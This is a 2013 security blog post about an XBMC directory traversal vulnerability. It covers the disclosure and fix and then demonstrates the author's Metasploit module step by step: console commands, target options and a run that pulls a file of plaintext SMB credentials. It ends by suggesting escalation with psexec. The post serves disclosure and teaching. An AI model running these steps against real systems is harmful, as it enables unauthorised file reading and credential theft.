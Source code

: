 ```yaml
---
title: "XBMC Traversal Metasploit Module"
date: "2013-02-25T15:32:00-05:00"
comments: true
highlight: "true"
categories:
 - directorytraversal
 - metasploit
 - hacking
 - exploit
aliases:
 - "/2013/02/xbmc-traversal-metasploit-module.html"
---
```


## Background

I was talking in [Intern0t](irc://chat.freenode.net:6667/intern0t) several months ago. [AcidGen](https://twitter.com/Acidgen), from [IOActive](http://www.ioactive.com) mentioned that he found a bug in [XBMC](http://www.xbmc.org). I use [XBMC](http://www.xbmc.org) quite a bit at home, on various platforms, since it's extremely wife-friendly. I hit him up, and we started talking. We had a nice Skype conversation, where we discussed possible platforms that were affected, and future exploits that we'd like to find. Since I had a jailbroken [Apple TV 2](https://www.apple.com/appletv) and [RaspberryPi](http://www.raspberrypi.org), I told him that I could test those platforms and help out. 

<!-- more -->

An [official disclosure](http://www.ioactive.com/pdfs/Security_Advisory_XBMC.pdf) was released, detailing the directory traversal vulnerability. The [XBMC](http://www.xbmc.org) team was able to make a [fix](https://github.com/xbmc/xbmc/commit/bdff099c024521941cb0956fe01d99ab52a65335), and the new version 12 is not vulnerable.

## Why does this vulnerability matter?

When talking with the [XBMC](http://www.xbmc.org), they seemed to play off the vulnerability, because they believed nobody would ever expose this service to a public network. However, a quick [ShodanHQ](http://www.shodanhq.com/search?q=xbmc) search shows that people are exposing it. But you may say, "Matt, this is only a directory traversal vulnerability, what are you going to do, steal someone's MP3s?". The issue here, lies in that if you can read any file on the system, that may include password files, such as /etc/passwd or even /etc/shadow if the service runs as root. What makes this even worse, is that due to how XBMC has to pass credentials to a fileserver, it stores the credentials in plain text. This gives an attacker a <i>huge</i> advantage. They now have valid credentials on at least one system. If the system has SMB exposed as well, it could easily be game-over.

## Let's see the exploit...

I don't know why it took so long, but I finally finished the MSF module for this vulnerability. It can be found [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/xbmc_traversal.rb). The usage is pretty simple. Here is a sample exploitation against an [Apple TV 2](https://www.apple.com/appletv).

As usual, watch the pretty ASCII-art go by, and use the module. 

```
420-1572-man:gather mandreko$ msfconsole
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --=[ 1048 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops

msf > use auxiliary/gather/xbmc_traversal
msf  auxiliary(xbmc_traversal) >
</pre>Check out the options. You'll see the username and password that need to be set (however it's often defaulted to "xbmc", as well as the host, and file to disclose. 
<pre>msf  auxiliary(xbmc_traversal) > show options

Module options (auxiliary/gather/xbmc_traversal):

   Name      Current Setting                                                      Required  Description
   ----      ---------------                                                      --------  -----------
   DEPTH     9                                                                    yes       The max traversal depth
   FILEPATH  /private/var/mobile/Library/Preferences/XBMC/userdata/passwords.xml  no        The name of the file to download
   PASSWORD  xbmc                                                                 yes       The password to use for the HTTP server
   Proxies                                                                        no        Use a proxy chain
   RHOST                                                                          yes       The target address
   RPORT     8080                                                                 yes       The target port
   USERNAME  xbmc                                                                 yes       The username to use for the HTTP server
   VHOST                                                                          no        HTTP server virtual host

msf  auxiliary(xbmc_traversal) >
```

Go ahead and set the RHOST to the XBMC server. 

```
msf  auxiliary(xbmc_traversal) > set rhost 192.168.1.102
rhost => 192.168.1.102
msf  auxiliary(xbmc_traversal) >
```

Lastly, run the exploit 

```
msf  auxiliary(xbmc_traversal) > run

[+] File saved in: /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml
[*] Auxiliary module execution completed
msf  auxiliary(xbmc_traversal) >
```

You can see this was successful. It saved the file locally, and added notes in [Metasploit](http://www.metasploit.com). Just to verify the findings, you can read the file it saved. 

```
msf  auxiliary(xbmc_traversal) > cat /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml
```

```
[*] exec: cat /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml

<passwords>
    <path>
        <from pathversion="1">smb://192.168.1.2/Movies</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/Movies/</to>
    </path>
    <path>
        <from pathversion="1">smb://192.168.1.2/tv</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/tv/</to>
    </path>
    <path>
        <from pathversion="1">smb://192.168.1.2/Music</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/Music/</to>
    </path>
</passwords>
msf  auxiliary(xbmc_traversal) >
```

And there you have it. You now have valid credentials on that fileserver. You could start escalating with psexec or other methods. Half the battle is already over.
